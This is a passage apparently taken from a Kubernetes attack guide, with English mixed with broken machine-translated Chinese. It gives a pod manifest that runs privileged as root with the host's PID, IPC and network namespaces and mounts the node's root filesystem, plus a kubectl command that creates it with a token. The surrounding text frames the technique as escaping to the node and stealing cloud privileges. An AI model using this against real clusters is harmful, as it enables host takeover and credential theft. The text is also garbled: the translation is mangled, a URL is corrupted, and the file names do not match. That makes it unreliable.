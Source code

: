 ***禁用hostnetwork **名称空间，访问窃取节点云特权并更好地访问网络
* **Mount hosts / inside the container**

***安装主机 /容器内部**

{% code title="super_privs.yaml" %}
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ubuntu
  labels:
    app: ubuntu
spec:
  # Uncomment and specify a specific node you want to debug
  # nodeName: <insert-node-name-here>
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "3600" # adjust this as needed -- use only as long as you need
    imagePullPolicy: IfNotPresent
    name: ubuntu
    securityContext:
      allowPrivilegeEscalation: true
      privileged: true
      #capabilities:
      #  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
      runAsUser: 0 # run as root (or any other user)
    volumeMounts:
    - mountPath: /host
      name: host-volume
  restartPolicy: Never # we want to be intentional about running this pod
  hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
  hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
  hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
  volumes:
  - name: host-volume
    hostPath:
      path: /
```
{% endcode %}

Create the pod with:

用：

```bash
kubectl --token $token create -f mount_root.yaml
```
